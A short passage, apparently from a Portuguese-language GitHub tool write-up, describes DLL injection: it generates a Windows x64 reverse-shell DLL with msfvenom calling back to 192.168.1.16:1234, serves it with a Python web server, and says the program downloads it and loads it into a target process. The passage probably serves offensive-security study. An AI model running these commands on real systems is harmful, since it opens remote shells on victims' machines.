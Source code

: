 * Criando a dll unmanaged com o msfvenom e levantando um servidor web

```
[root@chucrutis /tmp] ➜ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.16 LPORT=1234 -f dll -o chucrutis.dll

[root@chucrutis /tmp] ➜ python3 -m http.server 1235
```

* Após a execução do programa, ele baixa a DLL do servidor Web e faz o programa alvo carregar essa DLL na memória